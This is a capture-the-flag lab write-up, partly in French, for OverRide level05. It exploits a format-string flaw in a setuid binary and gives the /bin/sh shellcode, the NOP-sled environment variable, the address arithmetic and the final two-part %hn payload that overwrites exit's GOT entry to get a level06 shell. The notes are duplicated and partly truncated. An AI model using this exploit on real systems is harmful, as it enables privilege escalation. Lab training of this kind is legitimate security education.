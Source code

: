 # level05

We can see that program takes an input and XOR each byte with 32 if it is between 'A' and 'Z'. It is a `toLower` like function:

```gdb
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048472 in main ()
(gdb) c
Continuing.
AAAAAAAAAAA

Breakpoint 2, 0x08048500 in main ()
(gdb) x/s $esp+0x28
0xffffd668:      'a' <repeats 11 times>, "\n"
```

Then, it pass the result string in `printf` as the only argument.

We try to found the direct access parameter:

```bash
level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05  
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070  
```

Our string is printed at the 10th parameter.

We put our shellcode in an environment variable and find its address:

```bash
export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
```

```gdb
(gdb)  x/s *((char **)environ+0)  
<!-- 0xffffd702:      "EXPLOIT=<...>" -->
0xffffd74a:      "EXPLOIT=<...>"

(gdb)  p/d 0xffffd74a+200
$1 = 4294957074
(gdb)  p/d 0xffffd702+200
$2 = 4294957002

(gdb) p/x 0xffffd74a+200  
$3 = 0xffffd812
(gdb) p/x 0xffffd702+200
$4 = 0xffffd7ca

(gdb) p/d 0xd812  
$4 = 55314  
(gdb) p/d 0xd812-8  
$5 = 55306  
  
gdb-peda$ p/d 0xffff  
$5 = 65535  
(gdb) p/d 0xffff-55314  
$6 = 10221  
```


iRELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE  
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05  
  
level05@OverRide:~$ file level05   
level05: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x1a9c02d3aeffff53ee0aa8c7730cbcb1ab34270e, not strippe  
  
We c

Le programme actuel recupere la string de gets et transforme les minuscules en majuscules.  
Le premier argument du printf a *main+195 est notre string, ce qui correspond a une faille de type format string  
  
level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05  
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070  
  
Nous pouvons voir que notre string 'aaaa' apparait au printf access parameter numero 10  
  
export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")  

(gdb) x/s *((char **)environ+0)  
0xffffd74a:      "EXPLOIT=<...>"  
  
adresse exploit: 0xffffd74a  
(gdb) p/d 0xffffd74a+200  
$1 = 4294957074  
  
(gdb) p/x 0xffffd74a+200  
$2 = 0xffffd812  
(gdb) x/s 0xffffd812  
  
(gdb) p/d 0xd812  
$4 = 55314  
(gdb) p/d 0xd812-8  
$5 = 55306  
  
gdb-peda$ p/d 0xffff  
$5 = 65535  
(gdb) p/d 0xffff-55314  
$6 = 10221  
  
adresse exit: 0x80497e0  
  
(gdb) info function exit  
All functions matching regular expression "exit":  
  
Non-debugging symbols:  
0x08048370  exit  
0x08048370  exit@plt  
  
(gdb) r <<<$(python -c "print '\xe0\x97\x04\x08' + '%4294957070\$n'")
0x0804847a in main ()
(gdb) x/wx $esp
0xffffd690:     0xffffd6b8
(gdb) x/5wx 0xffffd6b8
0xffffd6b8:     0x080497e0      0x39323425      0x37353934      0x24303730
0xffffd6c8:     0x00000a6e
Breakpoint 2, 0x08048507 in main ()
(gdb) x/5wx 0xffffd6b8
0xffffd6b8:     0x080497e0      0x39323425      0x37353934      0x24303730
0xffffd6c8:     0x00000a6e

Nous pouvons voir que les bytes que nous avons rentrer dans le fgets() ne sont pas modifier, mais que nous n'avons pas jump sur notre shellcode
  
Nous pouvons voir sur ce document, que les valeurs des int pris en compte par printf ont une limite :  
https://cs155.stanford.edu/papers/formatstring-1.2.pdf  
  
Comme a sa section 4.1 (Short write), nous allons passer notre adresse en deux fois afin de ne pas depasser cette limite. 
  
=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt> ; Size == 100  
(gdb) x/wx $esp  
0xffffd470:     0xffffd498  
(gdb) x/s 0xffffd498  
0xffffd498:      ""  
  
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn")'; cat) | ./level05  
<...>  
whoami  
level06  
  
Je pense qu il ny a pas assez de NOPs de disponible afin de pouvoir etre sur qu une adresse arrive dans les NOPs si on met notre shellcode dans l entree standard.  
    
  
(gdb) r <<<$(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%.55306u%10\$hn' + '%.10221u%11\$hn'")  
=> 0x08048507 <+195>:   call   0x8048340 <printf@plt>
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:     push   0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) disas 0x80497e0
Dump of assembler code for function exit@got.plt:
   0x080497e0 <+0>:     jbe    0x8049765 <_DYNAMIC+105>
   0x080497e2 <+2>:     add    al,0x8
End of assembler dump.

=> 0x0804850c <+200>:   mov    DWORD PTR [esp],0x0
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:     push   0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) disas 0x80497e0
Dump of assembler code for function exit@got.plt:
   0x080497e0 <+0>:     adc    bl,al
   0x080497e2 <+2>:     (bad)  
   0x080497e3 <+3>:     jmp    DWORD PTR [eax]
End of assembler dump.
